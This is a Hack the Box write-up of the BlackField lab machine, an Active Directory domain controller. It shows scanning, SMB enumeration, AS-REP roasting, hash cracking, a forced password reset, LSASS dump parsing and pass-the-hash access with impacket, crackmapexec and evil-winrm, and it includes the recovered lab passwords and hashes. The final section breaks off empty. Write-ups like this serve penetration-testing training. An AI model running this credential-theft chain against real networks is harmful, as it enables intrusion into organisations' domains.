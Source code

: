 # Hack the Box - BlackField


```CSS
Machine IP: 10.10.10.192
```

```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.192 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.192
Host is up (0.18s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
389/tcp  open  ldap
445/tcp  open  microsoft-ds
593/tcp  open  http-rpc-epmap
3268/tcp open  globalcatLDAP
5985/tcp open  wsman
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 135.41 seconds
```

```CSS
▶ nmap -Pn -sC -sV -p 53,88,135,389,445,593,3268,5985 10.10.10.192 -oN services.nmap

Nmap scan report for 10.10.10.192
Host is up (0.18s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-05-20 13:56:42Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m34s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-05-20T13:57:07
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.98 seconds
```

---

## SMB Enumeration
  - Anonymous and Guest Enumeration 
```
▶ smbmap -H 10.10.10.192 -u guest
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ee481776-6d35-4c5a-a235-099ce99ed714)

SMB shares reveal two non-default shares named `forensic` and `profiles$`. The share `forensic` is not accessible however read-only access is allowed on the `profiles$` share. 

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/9a1f88cc-ce6c-4ee0-85b8-97579f3e5553)

---

## Kerberos
  - Kerberos Pre-Authentication Attack (ASREPRoast)
  - Craft a list of users to spray the users
```CSS
▶ smbclient -N \\\\10.10.10.192\\profiles$ -c ls | awk '{ print $1 }' | tee users.txt
```
```CSS
▶ impacket-GetNPUsers blackfield.local/ -no-pass -usersfile users.txt -dc-ip 10.10.10.192 | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/99b7e598-7179-457a-84ab-5ff137a3ed46)

---

## Hash Crack (krb5asrep)
```CSS
▶ john krb.hash --format=krb5asrep
```

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/1bd2c405-2c01-48c3-aebe-e3b1b97e88c2)

```CSS
#00^BlackKnight  ($krb5asrep$23$support@BLACKFIELD.LOCAL)
```

---

## BloodHound
```CSS
▶ bloodhound-python --username support --password '#00^BlackKnight' --domain blackfield.local --nameserver 10.10.10.192 --collectionmethod all
```
```CSS
▶ neo4j console
```
```CSS
▶ bloodhound --no-sandbox
```
Upload files generated by `bloodhound.py` to BloodHound console.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/67572013-e505-4437-8921-284955cd2e5c)

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f5d0f98a-36f2-4e82-a700-49d3bdead4ee)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/315fb65d-46bb-4905-96c8-7d6e7eddd6ab)

---

## Force Change Password
```CSS
▶ rpcclient 10.10.10.192 -U 'support'
Password for [WORKGROUP\support]:
rpcclient $> setuserinfo2 audit2020 23 Password123
rpcclient $> exit
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4b07f036-6c38-40f5-8b0c-581a8047a5f5)
```CSS
▶ crackmapexec smb 10.10.10.192 -u audit2020 -p Password123
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/94bac7e7-3c7c-4326-8916-293ee0af15d5)

---

```CSS
▶ smbclient \\\\10.10.10.192\\forensic -U "audit2020"
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/3cd76e5d-a326-45c4-8d63-fd9a2346b84f)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/9db2bdf4-995e-46ce-b788-2e8b03bc70cc)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/b748c159-0191-42b0-963f-9d4adc71de12)

---

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/6b970a7a-aa71-4612-8fe8-9f64f037600f)

---

## Dump File (.DMP)
```CSS
▶ pypykatz lsa minidump lsass.DMP
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/e6eed677-d497-4777-be99-34b63bea7628)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/cf9d1c3c-c4e2-44e4-a89d-aad2385e9fbe)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/fd9da16d-294e-48e1-818b-3085dd8954d2)

---

## Dump Hashes with DCSync
```CSS
▶ impacket-secretsdump blackfield.local/administrator@10.10.10.192 -hashes :7f1e4ff8c6a8e6b6fcae2d9c0572cd62 -dc-ip 10.10.10.192
```
```CSS
▶ impacket-secretsdump blackfield.local/'dc01$'@10.10.10.192 -hashes :b624dc83a27cc29da11d9bf25efea796 -dc-ip 10.10.10.192

```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/abfc08ef-f1ce-4810-b158-7d8a89c8f53a)
```
▶ crackmapexec winrm 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ee122af8-bdde-4e8d-bbb4-7c3208280597)

---

```CSS
▶ evil-winrm -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d -i 10.10.10.192
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/2e8bd716-d569-42e5-82e1-cd04f05588ab)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/d94aabbe-9752-4f60-a6cb-86b3a0f6cd18)

---

## Dump Local SAM Hashes with SeBackupPrivilege
```CSS
▶ 
```
